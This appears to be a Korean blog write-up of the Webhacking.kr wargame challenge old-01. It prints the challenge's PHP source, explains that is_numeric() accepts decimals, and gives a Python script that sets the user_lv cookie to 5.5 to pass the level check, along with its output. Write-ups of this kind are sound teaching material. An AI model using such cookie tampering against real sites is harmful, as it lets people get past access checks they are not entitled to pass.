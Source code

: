 ```yaml
---
layout: post
title: old-01
author: bindon
category: Webhacking.kr
date: 2019-11-27
---
```


# Problem Analysis
![old-01-problem]({{site.url}}{{site.baseurl}}{{site.assets_path}}/img/posts/Web Hacking KR/old-01-problem.png){: .text-center }

문제를 확인하면, 이 페이지에서는 사용자의 입력을 받는 부분이 따로 나타나지 않기 때문에, 바로 view-source 링크를 클릭하여 코드를 확인합니다.

```php
<?php
  include "../../config.php";
  if($_GET['view-source'] == 1){ view_source(); }
  if(!$_COOKIE['user_lv']){
    SetCookie("user_lv","1",time()+86400*30,"/challenge/web-01/");
    echo("<meta http-equiv=refresh content=0>");
  }
?>
<html>
<head>
<title>Challenge 1</title>
</head>
<body bgcolor=black>
<center>
<br><br><br><br><br>
<font color=white>
---------------------<br>
<?php
  if(!is_numeric($_COOKIE['user_lv'])) $_COOKIE['user_lv']=1;
  if($_COOKIE['user_lv']>=6) $_COOKIE['user_lv']=1;
  if($_COOKIE['user_lv']>5) solve(1);
  echo "<br>level : {$_COOKIE['user_lv']}";
?>
<br>
<a href=./?view-source=1>view-source</a>
</body>
</html>
```
코드의 상단 부분을 먼저 확인하면 쿠키가 없을 때 user_lv 에 1을 넣는것을 확인할 수 있고, 실제로 페이지에 아무런 조작 없이 접속했을 때 쿠키에 user_lv=1이 할당된 것을 확인할 수 있습니다.
코드의 하단 부분을 확인하면 세 가지의 if문을 통해 아래와 같이 로직을 나누고 있습니다.
1. user_lv가 is_numeric()을 통과하지 못하면 user_lv를 1로 설정
2. user_lv가 6 이상이면 user_lv를 1로 설정
3. user_lv가 5 초과라면 solve(1)을 실행

우리의 목적은 1, 2를 우회하여 3을 실행하는 것입니다.
1번 조건은 숫자를 입력하면 됩니다.
2번 조건을 우회하기 위해 6 미만의 숫자를 입력해야 합니다.
3번 조건을 만족하기 위해 5 초과의 숫자를 입력해야 합니다.
즉, is_numeric()을 통과하며 $$ 5 < user\_lv < 6 $$을 만족하면 됩니다.

해당 조건을 만족하는 수를 알기 위해서는 [is_numeric()](https://www.php.net/manual/en/function.is-numeric.php)함수의 특징을 알아야 합니다.
is_numeric()은 부호, 10진수, 지수(e), 소수점을 허용합니다. 예를 들어 +0123.45e6는 올바른 값입니다.
즉 우리는 소수점을 사용하여 1번 조건을 우회할 수 있다는 것을 파악하였으므로, $$ 5 < user\_lv < 6 $$를 만족할 수 있는 값을 사용하면 됩니다.
여기서는 user_lv를 **5.5**로 정의하여 사용할 예정입니다.

# Implementation
```python
from bindon import login

print "[+] Login and get session"
session = login.getSessionWithLogin()

print "[+] Set cookies"
cookies = {
    "user_lv": "5.5"
}

print "[+] Exploit"
response = session.get("https://webhacking.kr/challenge/web-01/", cookies=cookies)

print response.text
```

# Execution Result
```
[+] Login and get session
[+] Set cookies
[+] Exploit
<html>
<head>
<title>Challenge 1</title>
</head>
<body bgcolor=black>
<center>
<br><br><br><br><br>
<font color=white>
---------------------<br>
<script>alert('already solved');</script><br>level : 5.5<br>
<a href=./?view-source=1>view-source</a>
</body>
</html>
```